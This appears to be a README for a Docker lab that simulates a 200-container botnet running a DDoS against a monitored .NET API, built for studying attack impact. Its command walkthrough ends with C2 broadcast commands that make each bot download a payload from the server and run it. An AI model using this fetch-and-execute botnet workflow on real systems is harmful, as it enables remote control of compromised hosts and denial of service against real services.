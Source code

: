 # Run Botnet Simulation

To simulate a botnet network, Docker was used to create `200 containers` simulating `200 computers infected with a payload that connects their device to a network`. In order to apply a utilisation after connecting these devices, a python payload will be injected into each victim to simulate a `DDOS attack on a server`.

## Setup Network

To configure the machine that will serve as a server for the botnets, a `container was created that also exports a simple http server`, so that connected clients can download the payload that will be used to force the bots to make http requests against a given server.

```bash
    task create-server
```

In this way, it will create an internal network in docker for simulating botnets

## Setup Target Api Service

For this simulation, we will use a web service (API) developed in .NET 7, which is configured with performance monitoring tools. In this way, it will be possible to analyse and monitor the effectiveness of the simulation's performance more precisely.

```bash
    task compose
```

### Create an Botnet

After configuring both containers, we'll enter the newly created server (botnet server).

```bash
    docker ps
```

```

```

Next, the connection to the container is made and the payload that will be used to infect the containers for the simulation is prepared.

| Create an Botnet Payload

```bash
    python client.py server 2000 --name botnet.py
```

In this way, an instance of the botnet server is created, and the 200 botnets are created using the following command.

```bash
    task start
```

All the bots are connected, all that's needed now is to `inject the payload and force it to run`

```
    > broadcast wget http://server:3000/
    > broadcast python /tmp/*
```

This is how the attack begins: all the botnets start making multiple HTTP requests, with the aim of `restricting the execution` of the web service.